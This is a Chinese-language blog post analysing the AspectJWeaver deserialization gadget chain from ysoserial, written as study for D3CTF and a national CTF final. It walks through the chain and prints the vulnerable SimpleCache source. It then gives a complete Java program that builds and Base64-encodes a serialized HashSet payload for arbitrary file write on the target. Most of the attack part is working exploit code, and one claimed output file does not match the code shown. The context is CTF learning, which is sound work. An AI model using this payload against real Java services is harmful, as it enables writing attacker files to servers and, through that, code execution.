 # [Java反序列化]AspectJWeaver反序列化

## 前言

2021年二月份`ysoserialize`增加了这条`AspectJWeaver`链子，之后陆续在2021年的`D3CTF`以及国赛决赛中都出现了这条链子的攻击，所以学习一下`AspectJWeaver`的反序列化，之后再复现一下D3CTF和国赛决赛的两道Java。

## 依赖

```xml
        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.1</version>
        </dependency>
        <dependency>
            <groupId>org.aspectj</groupId>
            <artifactId>aspectjweaver</artifactId>
            <version>1.9.2</version>
        </dependency>
```

需要存在CC链。

## 分析

首先看一下yso的chain：

```xml
Gadget chain:
HashSet.readObject()
    HashMap.put()
        HashMap.hash()
            TiedMapEntry.hashCode()
                TiedMapEntry.getValue()
                    LazyMap.get()
                        SimpleCache$StorableCachingMap.put()
                            SimpleCache$StorableCachingMap.writeToPath()
                                FileOutputStream.write()
```

前面部分是7u21，中间是CC6。从`SimpleCache$StorableCachingMap.put()`开始看起了。

`StorableCachingMap`是`SimpleCache`的内部类，它`extends HashMap`并且重写了`put`方法：

```java
		@Override
		public Object put(Object key, Object value) {
			try {
				String path = null;
				byte[] valueBytes = (byte[]) value;
				
				if (Arrays.equals(valueBytes, SAME_BYTES)) {
					path = SAME_BYTES_STRING;
				} else {
					path = writeToPath((String) key, valueBytes);
				}
				Object result = super.put(key, path);
				storeMap();
				return result;
			} catch (IOException e) {
				trace.error("Error inserting in cache: key:"+key.toString() + "; value:"+value.toString(), e);
				Dump.dumpWithException(e);
			}
			return null;
		}
```

当调用`put`的时候，会触发`path = writeToPath((String) key, valueBytes);`：

```java
		private String writeToPath(String key, byte[] bytes) throws IOException {
			String fullPath = folder + File.separator + key;
			FileOutputStream fos = new FileOutputStream(fullPath);
			fos.write(bytes);
			fos.flush();
			fos.close();
			return fullPath;
		}
```

实现文件写入，即将put方法的`value`写入到`folder + File.separator + key`中。

测试：

```java
    public static void main(String[] args) throws Exception{
        Class clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor declaredConstructor = clazz.getDeclaredConstructor(String.class,int.class);
        declaredConstructor.setAccessible(true);
        HashMap map = (HashMap)declaredConstructor.newInstance("D:\\\\", 123);
        map.put("1.txt","123".getBytes(StandardCharsets.UTF_8));
    }
```

成功将123写入到`D:\flag`文件中。

构造出来：

```java
    public static void main(String[] args) throws Exception{
        Class clazz = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
        Constructor declaredConstructor = clazz.getDeclaredConstructor(String.class,int.class);
        declaredConstructor.setAccessible(true);
        HashMap map = (HashMap)declaredConstructor.newInstance("D:\\\\", 123);
        ConstantTransformer constantTransformer = new ConstantTransformer("evil code".getBytes(StandardCharsets.UTF_8));
        Map outerMap = LazyMap.decorate(map,constantTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"1.txt");
        HashSet hashSet = new LinkedHashSet(1);
        hashSet.add(tiedMapEntry);
        outerMap.remove("1.txt");
        System.out.println(Base64.getEncoder().encodeToString(SerializeUtil.serialize(hashSet)));
    }
```

我没有去管`hashSet.add(tiedMapEntry);`的时候还会在自己的电脑上触发一次，只要生成的payload能用就行了。感兴趣的师傅们可以自己构造一下`HashSet`的那部分使得在自己的电脑上不会触发，或者说直接抄一下yso的代码也都可以。

